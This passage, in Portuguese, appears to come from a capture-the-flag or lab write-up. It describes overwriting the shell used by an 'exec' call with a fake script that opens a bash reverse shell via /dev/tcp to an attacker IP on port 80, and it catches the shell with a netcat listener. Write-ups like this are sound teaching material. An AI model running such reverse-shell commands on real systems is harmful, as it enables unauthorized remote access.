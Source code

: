 Vemos que na linha 17 a função "**exec**" é utilizada, então podemos sobrescrever a shell utilizada pela função:

<figure><img src="./assets/59 (1).png" alt=""><figcaption></figcaption></figure>

### Exploiting

Criamos um arquivo para executar uma reverse shell:

```
echo -e \#\!'/bin/bash\n/bin/bash -c "bash -i >& /dev/tcp/<your-ip>/80 0>&1"' > /home/victor/fakeshell && chmod +x /home/victor/fakeshell
```

<figure><img src="./assets/60.png" alt=""><figcaption></figcaption></figure>

Executamos o netcat na porta 80:

```
nc -lvp 80
```

<figure><img src="./assets/63.png" alt=""><figcaption></figcaption></figure>
